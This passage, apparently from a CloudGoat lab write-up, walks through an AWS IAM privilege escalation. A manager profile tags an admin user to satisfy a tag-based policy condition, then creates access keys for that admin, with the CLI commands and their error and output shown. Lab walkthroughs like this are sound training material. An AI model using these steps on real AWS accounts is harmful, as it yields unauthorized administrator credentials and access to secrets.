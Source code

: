 From all the information that we got, the admin user is able to assume the `cg_secretsmanager_iam_privesc_by_key_rotation_###` role which has a permission to get the secret!

We do not have an access key id and secret access key for the admin user. What should we do?

We knew that the manager has a permission to create an access key, so we will use this permission to create the access key for the admin user.

### Create an access key
When you try to create an access key with
```shell
aws --profile kerrigan_manager iam create-access-key --user-name <admin-username>
```

You will get an error like this
>An error occurred (AccessDenied) when calling the CreateAccessKey operation: User: arn:aws:iam::###:user/manager_iam_privesc_by_key_rotation_### is not authorized to perform: iam:CreateAccessKey on resource: user admin_iam_privesc_by_key_rotation_### because no identity-based policy allows the iam:CreateAccessKey action

This is because the admin user does not have resource tag `developer=true` (refer back to the `SelfManageAccess` policy)

So we will add the resource tag for the admin user first
```shell
aws --profile kerrigan_manager iam tag-user --user-name <admin-username> --tags Key=developer,Value=true
```

And then
```shell
aws --profile kerrigan_manager iam create-access-key --user-name <admin-username>
```

You will get `AccessKeyId` and `ScretAccessKey`. Now, you can create the admin profile from this access key.

If you don't know how <a href="{% post_url 2024-03-05-cloudgoat-vulnerable-lambda %}">see here</a>

If you have an error
>An error occurred (LimitExceeded) when calling the CreateAccessKey operation: Cannot exceed quota for AccessKeysPerUser: 2

This means the admin user already has 2 access keys, so you cannot create more access key for it.

Here is the solution

First, list all the access keys that the admin user has
```shell
aws --profile kerrigan_manager iam list-access-keys --user-name <admin-user>
```

Result:
```json
{
    "AccessKeyMetadata": [
        {
            "UserName": "admin_iam_privesc_by_key_rotation_###",
            "AccessKeyId": "<AccessKeyId>",
            "Status": "Inactive",
            "CreateDate": "2024-03-12T05:27:04+00:00"
        },
        {
            "UserName": "admin_iam_privesc_by_key_rotation_###",
            "AccessKeyId": "<AccessKeyId>",
            "Status": "Inactive",
            "CreateDate": "2024-03-12T05:27:05+00:00"
        }
    ]
}
```
